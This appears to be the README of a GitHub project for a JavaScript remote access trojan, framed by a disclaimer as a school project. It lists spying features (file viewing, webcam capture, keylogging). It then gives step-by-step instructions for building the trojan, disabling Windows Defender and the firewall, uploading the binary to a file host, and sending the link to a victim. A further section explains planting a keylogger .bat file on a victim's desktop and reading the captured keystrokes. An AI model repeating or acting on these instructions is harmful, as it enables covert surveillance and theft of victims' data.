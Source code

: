 
                                Mickery Mouse Remote Access Trojan
DISCLAIMER
This Trojan was created for a school project and was solely created for educational purposes. The writers of this code will not be held liable for any misuse or illegal usage of the code.

Mickey Mouse Remote Access Trojan

Created a remote access trojan using Basic JavaScript that will establish administrative control over any OS architecture it compromises. For best use running Kali Linux machine

Features

    View files from the client's machine.
    Get information about victim's machine.
    Open client's webcam and save image as screenshot.
    Monitoring user behavior through keylogger capabilities (Keystrokes).

Requirements

You NEED a 32 bit or 64 bit OS architecture to build the binaries. 

Install:
-->node
-->npm
-->Visual Studio Code

Usage
    Step 1: Clone repo
    Step 2: Open Terminal on local machine
    Step 3: Install nvm v14.15.0
    Step 4: Install npm
    Step 5: Install Visual Studio Code
    Step 6: Turn off Windows Defender and Firewall (client must also have Windows Defender off)
    Step 7: Run "npm run start" in Visual Studio Code
    Step 8: Upload the trojan file generated in the bin folder to https://gofile.io/uploadFiles
    Step 9: Copy the link and share to client
    Step 10: If client downloads and installs the contents of the link, you will now have access to their system :)

    INSTRUCTIONS TO RUN EXTERNAL KEYLOGGER:
    Step 1: Move the keylog folder to your desktop
    Step 2: Open terminal and change directory to the desktop "cd Desktop"
    Step 3: Change directory to keylogging folder "cd HatKey"  
    Step 4: run "python HatKey.py"
    Step 5: run "set host [your ip address]"
    Step 6: Run the command "run"
    Step 7: Copy the keylogger code gernerated 
    Step 8: Paste code as a ".bat" file on client's desktop
    Step 9: Open new terminal
    Step 10: repeat steps 2 and 3
    Step 11: Change directory to Ouput folder "cd Output"
    Step 12: run "cat [your ip address].machine name\ filename]"
    Step 13: Any keys typed will appear after running the above command



    

    

